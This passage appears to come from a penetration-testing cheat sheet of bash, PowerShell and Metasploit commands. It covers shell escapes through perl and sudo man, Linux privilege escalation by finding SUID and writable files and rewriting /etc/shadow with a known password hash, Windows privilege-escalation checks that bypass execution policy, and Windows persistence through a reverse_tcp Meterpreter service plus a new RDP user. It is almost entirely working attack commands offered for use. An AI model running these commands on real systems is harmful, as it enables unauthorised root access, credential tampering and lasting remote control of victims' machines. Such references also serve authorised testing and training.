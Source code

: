 ```bash
# PERL
perl -h
perl -e 'exec "/bin/bash";'
```

### Win Privilege Escalation

```bash
# PrivescCHECK - PowerShell script
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME% -Format TXT,CSV,HTML,XML"

## Basic mode
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"

## Extended Mode + Export Txt Report
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME%"
```

### Linux Privilege Escalation

```bash
# Writable files
find / -not -type l -perm -o+w

# e.g. of /etc/shadow with write permissions
openssl passwd -1 -salt abc password123
vim /etc/shadow # Paste the hashed password
su

# SETUID - SUDO privileges
find / -user root -perm -4000 -exec ls -ldb {} \;
find / -perm -u=s -type f 2>/dev/null

sudo -l

# e.g. User can run 'man' with SUDO Privileges
sudo man ls
	!/bin/bash
```

### Win Persistence

```bash
# msfcosole - Admin Meterpreter
search platform:windows persistence
use exploit/windows/local/persistence_service
set payload windows/meterpreter/reverse_tcp
set LPORT <PORT>
set SESSION 1
run

# Meterpreter - Enable RDP
run getgui -e -u <NEWUSER> -p <PW>
```

